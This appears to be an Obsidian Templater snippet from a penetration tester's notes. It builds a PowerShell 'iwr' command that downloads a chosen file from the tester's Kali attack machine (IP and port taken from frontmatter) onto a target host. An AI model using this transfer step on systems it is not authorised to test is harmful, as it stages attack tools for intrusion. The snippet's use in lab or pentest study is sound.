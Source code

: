 <%*
let File = await tp.system.prompt("Enter the name of the File")
-%>

- Download the file <% File %>

>[!example]   [Powershell](Powershell.md) #powershell
>```shell
>iwr -uri http://<% tp.frontmatter["KaliIP"] %>:<% tp.frontmatter["ServersPort"] %>/<% File %> -Outfile <% File %>
>```



